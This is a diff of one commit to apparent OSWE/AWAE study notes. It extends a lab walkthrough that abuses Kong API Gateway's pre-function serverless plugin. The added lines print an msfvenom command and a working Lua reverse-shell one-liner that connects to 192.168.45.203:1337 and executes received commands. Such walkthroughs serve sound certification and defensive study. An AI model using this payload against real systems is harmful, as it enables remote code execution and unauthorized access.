

Before and after one commit to m0hammad-yaser/OSWE-AWAE-Notes, a Markdown page: apigateway/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/apigateway/README.md
+++ b/apigateway/README.md
@@ -699,4 +699,21 @@ The **`Serverless Functions`** plugin has an interesting warning in its document
 Warning: The pre-function and post-function serverless plugin allows anyone who can enable the plugin to execute arbitrary code. If your organization has security concerns about this, disable the plugin in your `kong.conf` file.
 ```
 
-That sounds perfect for our purposes!
+That sounds perfect for our purposes! Let's check if Kong has that plugin loaded.
+
+Our first call to the Kong API Gateway Admin API actually contained information about what plugins are enabled on the server.
+```json
+{"plugins":{"enabled_in_cluster":["key-auth"],"available_on_server":{"grpc-web":true,"correlation-id":true,"pre-function":true,"cors":true,...
+```
+Since the **`pre-function` plugin is enabled**, let's try to exploit that. The plugin runs Lua code so we'll need to build a matching payload. We can use `msfvenom` to generate a reverse shell payload.
+```bash
+msfvenom -p cmd/unix/reverse_lua lhost=192.168.45.203 lport=1337 -f raw -o shell.lua
+```
+Our `shell.lua` payload
+```bash
+┌──(kali㉿kali)-[~]
+└─$ cat shell.lua
+lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('192.168.45.203',1337);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"
+┌──(kali㉿kali)-[~]
+└─$
+```
````
